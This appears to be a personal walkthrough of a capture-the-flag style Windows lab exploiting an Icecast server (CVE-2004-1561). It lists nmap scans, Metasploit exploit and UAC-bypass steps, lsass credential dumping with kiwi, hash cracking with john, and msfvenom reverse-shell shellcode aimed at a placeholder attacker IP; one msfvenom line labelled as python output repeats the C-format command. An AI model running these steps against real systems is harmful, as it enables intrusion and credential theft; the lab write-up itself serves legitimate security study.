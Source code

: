 #WindowsExploitation 
### Recon
Start with a stealth syn scan using nmap
```nmap
sudo nmap -sS -n --open -vvv -Pn -p- -T4 machine_ip -oG allPorts
```
Obtain the open ports from allPorts with the function extractPorts
`extractPorts allPorts`
Next, a service and version scan
```nmap
nmap -sC -sV -p135,139,445,3389,5357,8000,49152,49153,49154,49158,49159,49160 machine_ip -oN targeted
```

### Gain Access
Look for information on Icecast
[CVE Details](https://www.cvedetails.com/)
[CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/)
```msfconsole
search icecast
use exploit/windows/http/icecast_header
set RHOSTS machine_ip
set LHOST attacker_ip
exploit
```

### Escalate Privileges
```meterpreter session 1
getuid
sysinfo
run post/multi/recon/local_exploit_suggester
```
`exploit/windows/local/bypassuac_eventvwr` is the privesc technique to use
`bg` or `Ctrl+z` -> to background the session
```msfconsole
use exploit/windows/local/bypassuac_eventvwr
set SEESION # 
set LHOST attacker_ip
run
```
```meterpreter session 2
getprivs
```
`SeTakeOwnershipPrivilege` -> take ownership of files

### Looting
We need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows
```meterpreter session 2
ps
```
In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service runs with SYSTEM-level privileges by default, and it will restart if crashed
`spoolsv.exe` -> printer spool service
```meterpreter session 2
migrate spoolsv.exe
getuid
load kiwi
creds_all
run post/windows/manage/enable_rdp
```
*Crack the password with john*
Use `hashdump` on the meterpreter session
Insert the hashes into a hashes.txt
`john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt --format=NT`

---
### Manual Exploitation
`searchsploit Icecast`
Both versions of th exploit will not work, as they are outdated. A more modern version can be found in the following github repository [CVE-2004-1561](https://github.com/ivanitlearning/CVE-2004-1561.git)
`git clone https://github.com/ivanitlearning/CVE-2004-1561.git`

The code written in python and C will now work. However, in order for it to do so, new shellcode has to be generated with msfvenom 
The command to achieve this is the following:
```msfvenom
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=Attacker_machine_ip LPORT=4444 -b '\x0a\x0d\x00' -f c
```
This command takes into account the attacker's ip and the port to listen to for the reverse shell. This parameter can vary.
It also considers badchars or bad characters. A bad character is an unwanted character that can be used to break shellcode. Depending on the application and the developer logic there is a different set of bad characters that a developer can specify for every program.
Common badchars include: 

```bash
\x00 = Null Byte o end of string
\x0a = New Line \n (linux)
\x0d = Carriage Return  \r (linux)
```

msfvenom can also output a python format
```msfvenom
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=Attacker_machine_ip LPORT=4444 -b '\x0a\x0d\x00' -f c
```

Replace the shellcode in the python script or in the C code.